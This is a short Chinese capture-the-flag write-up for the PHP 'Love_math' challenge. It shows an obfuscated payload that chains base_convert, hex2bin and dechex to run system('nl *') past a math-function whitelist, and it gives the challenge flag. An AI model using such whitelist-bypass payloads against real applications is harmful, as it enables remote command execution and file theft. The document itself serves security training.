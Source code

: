 # Love_math

## 思路分析

> 打开能看到源码,从源码上来看是要构造c参数,来达到执行命令或读取文件的目的.其中必须得用提示的那些数学函数,想执行命令,就得有字符,所以需要base_convert函数进行任意进制转换,

## payload

> ($pi=base_convert)(1751504350,10,36)($pi(1438255411,14,34)(dechex(1852579882)))

> 这段payload的含义是base_convert(1751504350,10,36)(base_convert(1438255411,14,34)(dechex(1852579882)))

```
base_convert(1751504350,10,36) system
base_convert(1438255411,14,34) hex2bin
dechex(1852579882) 6e6c202a
```

> system(hex2bin(6e6c202a))

> system(nl *)

## flag

> flag{dgjregjvdsmvba356sg}

## 参考

> https://blog.csdn.net/weixin_44897902/article/details/102548706